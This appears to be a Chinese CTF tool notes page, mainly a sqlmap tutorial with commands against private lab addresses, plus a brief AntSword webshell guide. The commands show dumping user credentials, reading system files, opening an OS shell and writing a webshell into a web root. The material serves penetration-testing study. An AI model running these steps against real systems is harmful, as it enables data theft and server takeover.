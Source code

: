 ```yaml
---
{"dg-publish":true,"permalink":"/c5/ctf/ctf/ctf/","dgPassFrontmatter":true}
---
```



**BP**:抓包工具，啥都能用
**Dirsearch**:用 Python 编写的开源的目录和文件扫描工具，常用于网站的信息收集阶段，通过对目标网站进行目录和文件的枚举，帮助发现网站上可能存在的敏感目录或文件[[0-Dirsearch使用教程\|0-Dirsearch使用教程]]


# sqlmap使用教程

# SQLMAP使用
## 参数介绍和示例

`-r`：万能参数，主要针对post注入，但是任何其他请求方法都是可以的，但这个参数用的最多
```
sqlmap.py -r c:\2.txt
```
`-u`：只针对get请求方法的注入
```
sqlmap.py -u http://192.168.0.15/sql.php?id=1
```
`--level=LEVEL`:执行测试的等级（1-5,默认为1），使用`-level`参数且数值>=2时候会检查cookie里面的参数，当>=3的时候将检查`user-agent`和`Referer`
```
sqlmap.py -r c:\2.txt --level 3
```
`--risk=RISK`:执行测试的风险（0-3，默认为1），默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试
```
sqlmap.py -r c:\2.txt --level 3 --risk 3
```
`v`:显示详细信息的意思，ERBOSE信息级别：0-6（缺省默认1），其值具体含义：“0”只显示Python错误以及严重的信息；“1”同时显示基本信息和警告信息（默认）；“2”同时显示debug信息：“3”同时显示注入的payload；“4”同时显示HTTP请求；“5”同时显示HTTP响应头；“6”同时显示HTTP响应页面；如果想看到sqlmap发送的测试payload最好的等级就是3，设置为5的话，可以看到http响应信息，比较详细
```
sqlmap.py -r c:\2.txt --level 3 --risk 3-v 3
```
`p`:针对某一个参数进行注入，当我们发现注入点的时候，比如网址`http://192.168.203.141/sql.php?id=1`只有一个参数id,而当有些网址有很多参数，那么我们可以针对指定的参数进行注入
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -p id
```
`--threads`：线程数，如果想要sqlmap跑的更快，可以更改这个线程数的值，默认为10
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -p id --threads 20
```
`-batch-smart`:智能判断测试，自行寻找注入点进行测试,能趴到好多数据，如果想结束指令的执行`ctrl+c`，这个智能指令，会将所有数据库全部扒一遍，并且会将每一步的信息和数据全部给我们保存下来，在sqlmap的output文件夹下面
```
sqlmap.py -u http://192.168.203.15/sql.php?id=1 -batch-smart
```
## 注入获取数据的相关参数
```
--dbs:会获取所有的数据库。默认情况下sqlmap会自动的探测web应用后端的数据库类型：MySQL、Orcacle,PostgreSQL,MicrosoftSQL,Server,Microsoft Access,SQLite,Firebird,Sybase,SAPMaxDB,DB2
--current-user:大多数数据库中可检测到数据库管理系统当前用户
--current-db:当前连接数据库名
--is-dba:判断当前的用户是否为管理
--users:列出数据库所有所有用户
```
以网址`http://192.168.203.143/sql.php?id=1`来走一般完整注入过程
```
http://192.168.203.143/sql.php?id=1 --dbs #会获取所有的数据库
http://192.168.203.143/sql.php?id=1 --current-user #显示当前用户
http://192.168.203.143/sql.php?id=1 --current-db #当前连接数据库名
http://192.168.203.143/sql.php?id=1 --is-dba #判断当前的用户是否为管理
http://192.168.203.143/sql.php?id=1 --users #列出数据库所有所有用户
```
然后按照下面的几个参数来获取细节数据。
**`-tables`获取表名**：-D是指定某个数据库，如果不加-D参数，那么会将所有数据库的所有表获取出来，最好指定数据库名，这样精准快速一些
```
--tables -D 数据库名
```
**`--columns`获取字段名**：
```
--cloumns -T user -D abc
```
**获取数据**
```
-T user -C username,password,email --dump
```
**读文件内容**
```
--file-read /etc/password
如果我们想要读取目标主机的c:\\2.txt文件的数据
sqlmap.py -u http://192.168.203.141/sql.php?id=1 --file-read c:\\2.txt
```
**系统交互的shell**:`--os-shell`
```
sqlmap.py -u http://192.168.203.141/sqlserver/1.aspx?xxser=1 --os-shell
```
**写webshell** :`--file-wirte`
```
指令
--file-write "c:/2.txt" --file-dest "C:/php/htdocs/sql.php" -v 1

--file-write "c:/2.txt" --file-dest"C:\phpStudy\PHPTutoria\www\xx.php" -v 1
```


# antsword蚁剑使用教程

[贴一篇使用博客](https://blog.csdn.net/qq_53079406/article/details/123302775)
## 一、antsword的webshell使用

第一步：在首页空白处右键-----添加数据（shell)
![Pasted image 20250405095548.png|450](/img/user/PNG/Pasted%20image%2020250405095548.png)
第二步：输入要挂马的地址和连接密码，添加保存（选个加密方法）
![Pasted image 20250405100610.png|450](/img/user/PNG/Pasted%20image%2020250405100610.png)

# dirsearch 目录扫描使用教程
